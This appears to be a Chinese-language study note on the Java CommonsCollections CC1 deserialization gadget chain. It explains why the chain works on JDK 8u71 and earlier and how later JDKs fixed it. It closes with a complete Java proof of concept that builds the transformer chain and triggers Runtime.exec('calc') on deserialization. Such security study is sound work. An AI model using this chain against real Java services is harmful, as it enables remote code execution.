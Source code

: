 CC1链：java<=JDK8u71、CommonsCollections<=3.2.1

Java原生的反序列化要利用一定要满足两个条件，入口类实现了序列化接口并且重写了readObject函数。实现序列化接口的类才能被Java序列化和反序列化，重写readObject方法才有可能执行到危险方法。否则无法调起和执行其他代码，更无从谈起利用。

要找到这么一个类，他可以反序列化并且重新了readObject方法，readObject方法中可以利用，则我就反序列化这个类。
CommonsCollections库中就有这么一个类AnnotationInvocationHandler。
并且通过中间的Transformer类，可以任意执行代码，成功通过反射Runtime.class执行命令。




## **执行流程**
![](.topwrite/assets/image_1727054486304.png)
![](.topwrite/assets/image_1727054525365.png)


## **修复**
因为在JDK1.8的8u71之后的版本反序列化不再通过 defaultReadobject 方式，而是通过readFields来获取几个特定的属性，defaultReadobject 可以恢复对象本身的类属性，比如 this.memberValues就能恢复成我们原本设置的恶意类，但通过 readFields 方式，this.memberValues就为null，所以后续执行get()就必然没触发，这也就是高版本不能使用的原因。

## **验证**
```
public class POC1 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException, InvocationTargetException, InstantiationException, IOException {
        //Runtime r = Runtime.getRuntime();
  /*      Class c = Runtime.class;
        Method getRuntimeMethod = c.getMethod("getRuntime", null);
        Runtime r = (Runtime) getRuntimeMethod.invoke(null, null);
        Method execMethod = c.getMethod("exec", String.class);
        execMethod.invoke(r,"calc");*/
   /*     Method getRuntimeMethod = (Method)new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime", null}).transform(Runtime.class);

        Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null, null}).transform(getRuntimeMethod);

        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(r);
*/
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        //chainedTransformer.transform(Runtime.class);


        //InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        HashMap<Object, Object> map = new HashMap<>();
        map.put("value","bbb");
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);
/*        for(Map.Entry entry:transformedMap.entrySet()){
 //          entry.setValue(Runtime.class);
        }*/
        //AnnotationInvocationHandler
        /*  Reader*/
            Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationdhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationdhdlConstructor.setAccessible(true);
        Object o = annotationInvocationdhdlConstructor.newInstance(Target.class,transformedMap);

        serialize(o);
        unserialize("ser.bin");

    }
    public static void serialize(Object obj) throws IOException, IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

